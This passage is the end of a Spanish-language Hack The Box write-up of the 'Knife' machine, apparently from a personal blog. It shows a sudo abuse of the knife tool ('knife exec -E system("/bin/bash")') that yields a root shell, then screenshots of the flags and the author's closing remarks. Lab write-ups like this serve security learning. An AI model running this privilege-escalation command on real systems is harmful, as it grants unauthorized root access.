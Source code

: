 ```bash
james@knife:/$ sudo /usr/bin/knife exec -E 'system("/bin/bash")'
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/knife/347bash_knifeexec_bash.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Listoneeeeeeeeeeeeeeeeeeees! Estamos dentro del sistema como el usuario **root** (: 

Vistaziemos las flags :o

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/knife/347flags.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

ey, emho telminao'

...

Linda máquina, me gusto que es real-life, un **CVE** y una aplicación que por default tiene la opción de ejecutar comandos. 

Lo raro es que esta rateada super bajo y no me parecio que estuviera mal, como máquina para empezar esta muuuuuuuuuy bien.

Bueno, por ahora no es más que agradecimiento hacia la luna y el atardecer 😬 Nos leeremos en otra ocasión yyyyyyyyyyy como siempre, a seguir rompiendo tooooooooodo!!